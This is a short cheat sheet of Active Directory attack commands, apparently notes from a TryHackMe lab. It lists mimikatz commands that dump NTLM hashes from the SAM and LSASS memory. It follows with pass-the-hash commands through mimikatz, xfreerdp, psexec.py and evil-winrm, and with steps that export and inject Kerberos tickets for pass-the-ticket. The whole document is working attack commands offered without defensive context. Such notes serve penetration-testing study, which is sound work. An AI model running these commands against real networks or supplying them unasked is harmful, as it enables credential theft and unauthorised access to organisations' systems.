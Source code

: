 # Active Directory

NTLM hashes from local SAM.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # lsadump::sam

NTLM hashes from LSASS memory.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # sekurlsa::msv

Using extracted hashes for pass the hash.

    mimikatz # token::revert
    mimikatz # sekurlsa::pth /user:elliot.alderson /domain:za.tryhackme.com /ntlm:654e4545455e5de /run:"some command"


RDP PTH

    xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

psexec PTH

    psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

WinRM PTH

    evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

Pass-the-Ticket

    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export

Once the desired ticket has been extracted.
    mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi  

